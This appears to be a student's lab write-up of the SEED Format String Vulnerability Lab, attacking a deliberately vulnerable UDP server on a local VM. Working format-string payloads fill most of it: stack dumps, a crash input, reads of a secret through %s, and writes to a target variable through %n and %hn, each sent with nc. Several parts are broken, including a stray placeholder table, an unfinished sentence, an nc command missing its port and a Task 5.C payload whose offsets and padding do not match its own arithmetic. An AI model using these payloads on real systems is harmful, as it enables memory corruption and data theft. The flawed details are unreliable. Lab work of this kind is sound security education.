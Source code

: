 ```yaml
---
title:  Format String Vulnerability Lab 
author: Xinyi Li
date: \today{}
---
```


# Task 1

Use the default `DUMMY_SIZE` as 100.

```bash
gcc -z execstack -o server server.c
```

Then clone the current VM according to [this manual](https://seedsecuritylabs.org/Labs_16.04/Documents/SEEDVM_VirtualBoxManual.pdf) as the server, whose IP address is `10.0.2.4`. While the client VM has an IP address as `10.0.2.15`.


On the server VM run

```bash
sudo ./server
```
Immediately, it is blocked with
```
The address of the input array: 0xbffff0e0
The address of the secret: 0x08048870
The address of the 'target' variable: 0x0804a044
The value of the 'target' variable (before): 0x11223344
```


On the client VM run

```bash
echo hello | nc -u 10.0.2.4 9090
```

And the server VM prints:
```
The ebp value inside myprintf() is: 0xbfffee28
hello
The value of the 'target' variable (after): 0x11223344
```

```
The ebp value inside myprintf() is: 0xbffff038
hello
The value of the 'target' variable (after): 0x11223344
```

# Task 2

```bash
python -c 'print "AAAA"+"%08X."*80' > badfile
nc -u 10.0.2.4 9090 < badfile
```
Then on the server:
```
The ebp value inside myprintf() is: 0xbffff038
AAAA00000000.00000064.B7FFF918.0804A014.B7FE97A2.B7FFFAD0.BFFFF0E0.00000001.BFFFF038.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.E0B1EB00.00000003.BFFFF0E0.BFFFF6C8.080487E5.BFFFF0E0.BFFFF054.00000010.08048704.00000000.00000010.00000003.82230002.00000000.00000000.00000000.9F810002.0F02000A.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.41414141.
The value of the 'target' variable (after): 0x11223344
```

`A` is `0x41`. So the distance can be considered as 80. 

Column A | 0 1 2 3 | 4 5 6 7 | 8 9 A B | C D E F
---------|----------|---------
 A1 | B1 | C1
 A2 | B2 | C2
 A3 | B3 | C3

1. 0xbffff0e0
2. 0xbffff038
3. 0xbffff0e0 + 80

The offset is 
# Task 3

send any illegal format string to the server. the server will crash.

For instance,

```bash
echo %s%s%s | nc -u 10.0.2.4 9090
```

The server will print an error message (`Segmentation fault`) and exit.

# Task 4

## Task 4 A

```
python -c 'print "%9$8x"' > badfile
nc -u 10.0.2.4  < badfile
```

```
The ebp value inside myprintf() is: 0xbffff038
bffff038
The value of the 'target' variable (after): 0x11223344
```
`bffff038` is the address of `ebp` in `myprintf`.

## Task 4 B

```bash
python -c 'print "\x70\x88\x04\x08%80$s"' > badfile
nc -u 10.0.2.4 9090 < badfile
```

And the server gives info:

```
The ebp value inside myprintf() is: 0xbffff038
... secret message
The value of the 'target' variable (after): 0x11223344
```

# Task 5

## Task 5.A

```
python -c 'print "\x44\xa0\x04\x08%80$n"' > badfile
nc -u 10.0.2.4 9090 < badfile
```

```
The ebp value inside myprintf() is: 0xbffff038
...
The value of the 'target' variable (after): 0x00000004
```

## Task 5.B

0x500 - 0x4 = 0x4FC = 1276
```
python -c 'print "\x44\xa0\x04\x08%1276x%80$n"' > badfile
nc -u 10.0.2.4 9090 < badfile
```

```
The ebp value inside myprintf() is: 0xbffff038
...
0
The value of the 'target' variable (after): 0x00000500
```

# Task 5.C

0x0000 = 0x10000
0x10000 - 0x8 = 0xFFF8 = 65528
0xFF99 - 0x10000 = 0x1FF99 - 0x10000 = 0xFF99 = 65433

```
python -c 'print "\x44\xa0\x04\x08\x46\xa0\x04\x08%65425x%80$hn%103x%80$hn"' > badfile
nc -u 10.0.2.4 9090 < badfile
```

![](./ff9900.png)

0xbffff038
```
python -c 'print "\x42\xf0\xff\xbf%80$n"' > badfile
nc -u 10.0.2.4 9090 < badfile
```